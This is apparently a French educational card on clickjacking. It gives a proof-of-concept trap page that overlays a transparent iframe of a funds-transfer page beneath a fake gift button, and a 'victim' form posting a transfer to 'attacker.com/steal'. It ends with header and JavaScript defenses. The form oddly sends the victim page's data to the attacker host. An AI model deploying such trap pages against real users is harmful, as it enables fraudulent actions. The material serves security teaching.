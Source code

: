 # Clickjacking
## COUCHE 7

### Usurpation
### Contournement
### Observation

#### ATTAQUE = CLICKJACKING

##### CONFIDENTIALITÉ
##### INTÉGRITÉ

**Description** :
Le clickjacking consiste à tromper un utilisateur en masquant un contenu malveillant derrière un bouton ou lien légitime, souvent via une iframe invisible.

**Source** : https://owasp.org/www-community/attacks/Clickjacking
https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/frame-ancestors

## Déroulé de l’attaque (PoC)

### 1.Cible visée
Imaginons que la cible soit une page sensible comme :  
`https://example.com/transfer-funds`

### 2.Création d’une page piégée

#### `malicious.html` (hébergée par l'attaquant)

```html
<!DOCTYPE html>
<html>
<head>
  <title>Concours gratuit !</title>
  <style>
    iframe {
      opacity: 0;
      position: absolute;
      top: 50px;
      left: 50px;
      width: 800px;
      height: 600px;
      z-index: 2;
    }
    #fake-button {
      position: absolute;
      top: 50px;
      left: 50px;
      z-index: 3;
    }
  </style>
</head>
<body>

<h1>Cliquez ici pour recevoir votre cadeau !</h1>
<button id="fake-button">Obtenir le cadeau</button>

<iframe src="https://example.com/transfer-funds" frameborder="0"></iframe>

</body>
</html>
```

### 3.Explication

L'utilisateur croit cliquer sur un bouton visible alors qu'il clique en réalité sur une action masquée dans une iframe transparente.

##Test local

### `victim.html`

```html
<!DOCTYPE html>
<html>
<head><title>Banque en ligne</title></head>
<body>
  <form action="https://attacker.com/steal" method="POST">
    <input type="hidden" name="amount" value="1000">
    <input type="hidden" name="to" value="attacker_account">
    <input type="submit" value="Transférer">
  </form>
</body>
</html>
```

##Défense

### En-têtes HTTP à ajouter sur le site cible

```http
X-Frame-Options: DENY
Content-Security-Policy: frame-ancestors 'none';
```

### Protection JavaScript

```javascript
if (top !== self) {
  top.location = self.location;
}
```
